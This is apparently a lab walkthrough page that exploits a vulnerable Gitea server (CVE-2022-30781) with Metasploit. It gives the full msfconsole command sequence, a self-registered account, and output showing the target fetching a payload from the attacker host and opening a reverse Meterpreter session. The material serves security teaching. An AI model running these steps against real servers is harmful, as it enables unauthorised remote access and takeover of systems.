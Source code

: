 +++
title = "Metasploit"
weight = 1
+++

## 1. Searching Metasploit
Start up your *msfconsole* and search for the Gitea exploit.
`search gitea`
![](./metasploit01.png)
You will recall that your target Gitea server is potentially vulnerable to *CVE-2022-30781* and that the remediation commit in Github 
references escaping the git fetch remote URL.  In this case we're interested in option *#0*.  Load up this exploit module with either:

`use 0`

`use exploit/multi/http/gitea_git_fetch_rce`

## 2. Attempting the exploit
Typing *show options* tells us we need to set a couple of options

* **RHOSTS** - Our target IP address
* **LHOST**  - The IP of our attacking machine
* **USERNAME** - Presumably Gitea credentials
* **PASSWORD** - Presumably Gitea credentials

Setting values within *msfconsole* is really straight forward.

 * `set RHOSTS 192.168.0.105`
 * `set LHOST 192.168.0.103`
 * `set USERNAME guest`
 * `set PASSWORD guest`
 * `set SRVPORT 8181` - The port on our machine we'll tell Gitea to connect to
 * `set ForceExploit true` - Ignores whatever the *check* module returns
 * `run` - Try the exploit

```bash
[*] Started reverse TCP handler on 192.168.0.103:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Cannot reliably check exploitability. Check TARGETURI - Unexpected HTTP response code ForceExploit is enabled, proceeding with exploitation.
[*] Using URL: http://192.168.0.103:8181/
[*] Using URL: http://192.168.0.103:8181/3oYWb2XU9
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/gitea_git_fetch_rce) > 
```

## 3. Creating a user
It looks like our exploit will require valid credentials to Gitea.  Check if the server allows account creation.
![](./gitea01.png)

It looks like we can create a new user account!
![](./gitea02.png)

Now head back to your *msfconsole* and set the *USERNAME* and *PASSWORD* for the user account you just created and try the exploit again.

```bash
[*] Started reverse TCP handler on 192.168.0.103:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 1.16.6
[*] Using URL: http://192.168.0.103:8181/
[*] Using URL: http://192.168.0.103:8181/bnQOtbfkgbqrJGD
[*] Client 192.168.0.105 (curl/7.47.0) requested /bnQOtbfkgbqrJGD
[*] Sending payload to 192.168.0.105 (curl/7.47.0)
[*] Sending stage (3045348 bytes) to 192.168.0.105
[*] Command Stager progress - 100.00% done (121/121 bytes)
[*] Meterpreter session 1 opened (192.168.0.103:4444 -> 192.168.0.105:42720) at 2023-03-21 14:46:55 -0500

meterpreter > 
```

## 4. Meterpreter basics

*TODO*
 * List running processes
 * Upload/Download ifles
 * get a raw command shell
 * meterpreter modules
